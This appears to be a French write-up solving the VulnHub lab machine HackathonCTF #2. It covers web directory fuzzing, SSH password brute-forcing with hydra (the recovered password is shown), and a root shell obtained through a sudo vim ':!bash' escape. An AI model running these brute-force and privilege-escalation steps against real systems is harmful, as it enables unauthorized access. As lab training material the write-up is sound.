 ```yaml
---
title: "Solution du CTF HackathonCTF #2 de VulnHub"
tags: [CTF, VulnHub]
---
```


[HackathonCTF #2](https://vulnhub.com/entry/hackathonctf-2,714/) est un CTF très simple à l'instar de son prédécesseur.

J'énumère le serveur web à l'aide de `feroxbuster` :

```bash
feroxbuster -u http://192.168.56.202/ -w fuzzdb/discovery/predictable-filepaths/filename-dirname-bruteforce/raft-large-words.txt -n -t 30 -x php,html,txt,zip
```

Je découvre comme ça un fichier à l'adresse `/happy`

```html
<html>
<title>happy</title>

<body><h1> Nothing is in here</h1></body>

<!-- username: hackathonll >

</html>
```

Il y a aussi un fichier `word.dir` présent sur le serveur FTP qui autorise les connexions anonymes.

On va s'en servir de wordlist pour l'utilisateur `hackathonll` :

```console
$ hydra -l hackathonll -P word.dir ssh://192.168.56.202:7223
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 110 login tries (l:1/p:110), ~7 tries per task
[DATA] attacking ssh://192.168.56.202:7223/
[7223][ssh] host: 192.168.56.202   login: hackathonll   password: Ti@gO
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished
```

Cet utilisateur peut exécuter Vim avec les droits `root` :

```console
$ sudo -l
Matching Defaults entries for hackathonll on hackathon:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hackathonll may run the following commands on hackathon:
    (root) NOPASSWD: /usr/bin/vim
```

Une méthode bien connue d'échapper vers un shell depuis Vim et d'utiliser `:!bash` :

```console
$ sudo /usr/bin/vim     
--- snip :!bash snip ---
root@hackathon:/home/hackathonll# id
uid=0(root) gid=0(root) groups=0(root)
root@hackathon:/home/hackathonll# cd /root
root@hackathon:~# ls
flag2.txt  snap
root@hackathon:~# cat flag2.txt
₣Ⱡ₳₲{7e3c118631b68d159d9399bda66fc694}
```
